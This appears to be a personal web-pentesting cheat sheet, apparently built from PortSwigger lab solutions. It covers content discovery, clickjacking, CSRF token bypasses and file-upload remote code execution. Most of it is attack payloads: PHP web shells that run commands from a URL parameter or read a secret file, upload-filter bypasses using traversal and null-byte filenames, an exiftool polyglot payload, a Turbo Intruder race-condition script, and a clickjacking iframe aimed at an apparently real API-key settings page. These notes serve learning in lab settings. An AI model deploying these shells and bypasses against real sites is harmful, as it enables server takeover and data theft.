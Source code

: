 # CIA
	Integrity : data only change by auth.
	Avalability : Avalable data when user need.
	Confidentility : Data access by auth.
  
# Containt Discover
	gobuster -u http://fakebank.com -w wordlist.txt dir 
	
# ClickJacking
	<!DOCTYPE html>
	<html lang="en">
	<head>
	  <meta charset="UTF-8">
	</head>
	<body>
	  <iframe src="https://10x.redoxengine.com/#/organization/8168/development/developer/apiKeys/dd364dd9-7bc3-4e78-aeea-cd400e1ff721/settings" frameborder="0"></iframe>
	</body>
	</html>

# CSRF
## CSRF parameter is not available
---> generate CSRF POC and try

## CSRF parameter available 

-> Change action METHOD (GET OR POST)

-> Remove CSRF parameter
eg. email and CSRF
remove CSRF
now> email

-> enter own CSRF taken and send to victim (CSRF token one time use so, create fresh token everytime after use. For testing use inco mode. for more read paragraph.)



1)  Open Burp's browser and log in to your account. Submit the "Update email" form, and intercept the resulting request.
    Make a note of the value of the CSRF token, then drop the request.
2) Open a private/incognito browser window, log in to your other account, and send the update email request into Burp Repeater.
3) Observe that if you swap the CSRF token with the value from the other account, then the request is accepted.
4) Create and host a proof of concept exploit as described in the solution to the CSRF vulnerability with no defenses lab. Note that the CSRF tokens are single-use, so you'll need to include a fresh one.
    Store the exploit, then click "Deliver to victim" to solve the lab.


->if CSRF key cookies and CSRF token are available

https://portswigger.net/web-security/csrf/lab-token-tied-to-non-session-cookie 

->if header error occure
1) so try remove header
https://portswigger.net/web-security/csrf/lab-referer-validation-depends-on-header-being-present

2) if header remove not work try changing domain like
refrer: http://google.com
to
http://burpsuit/?google.com
https://portswigger.net/web-security/csrf/lab-referer-validation-broken

# RCE

<?php echo file_get_contents('/home/carlos/secret'); ?>

<?php echo system($_GET['command']); ?>

1) upload file

2) change content-type
Content-Type to image/jpeg

3) Content-Disposition
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
if its work now change 
filename="..%2fexploit.php" in content
if its work access with ..%2fexploit.php

4) Overriding the server configuration
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass

5) Obfuscating file extensions
filename="exploit.php%00.jpg"
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-obfuscated-file-extension

6) Flawed validation of the file's contents
embeded code in image
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

7) Only jpeg and png allow
https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-race-condition
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint, concurrentConnections=10,)

    request1 = '''<YOUR-POST-REQUEST>'''

    request2 = '''<YOUR-GET-REQUEST>'''

    # the 'gate' argument blocks the final byte of each request until openGate is invoked
    engine.queue(request1, gate='race1')
    for x in range(5):
        engine.queue(request2, gate='race1')

    # wait until every 'race1' tagged request is ready
    # then send the final byte of each request
    # (this method is non-blocking, just like queue)
    engine.openGate('race1')

    engine.complete(timeout=60)


def handleResponse(req, interesting):
    table.add(req)
